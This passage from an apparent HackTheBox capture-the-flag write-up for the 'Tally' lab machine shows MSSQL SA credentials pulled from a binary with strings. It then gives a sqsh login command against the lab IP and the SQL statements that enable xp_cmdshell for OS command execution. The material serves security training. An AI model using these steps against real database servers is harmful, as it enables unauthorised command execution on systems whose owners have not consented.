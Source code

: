 After some manual enumeration, we come a across a file called `tester.exe`, running strings on the file reveals the credentials for the MSSQL Server we saw in the nmap scan.

![](/images/hackthebox-writeups/tally/sql-1.png)

Creds - `sa:GWE3V65#6KFH93@4GWTG2G`

## Getting Command Execution using the MSSQL Server and 'xp_cmdshell'

Now that we have creds for the SQL Server we can login using `sqsh`, a tool built into Kali.

{% highlight bash %}
sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G
{% endhighlight %}

![](/images/hackthebox-writeups/tally/sql-2.png)

### Enabling xp_cmdshell

Now that a connection has been established we can enable the `xp_cmdshell` function, so that we can execute system commands as the user who is running the database server. The following commands are used to enable the function.

{% highlight sql %}
exec sp_configure ‘show advanced options’, 1
go
reconfigure
go
exec sp_configure ‘xp_cmdshell’, 1
go
reconfigure
go
{% endhighlight %}
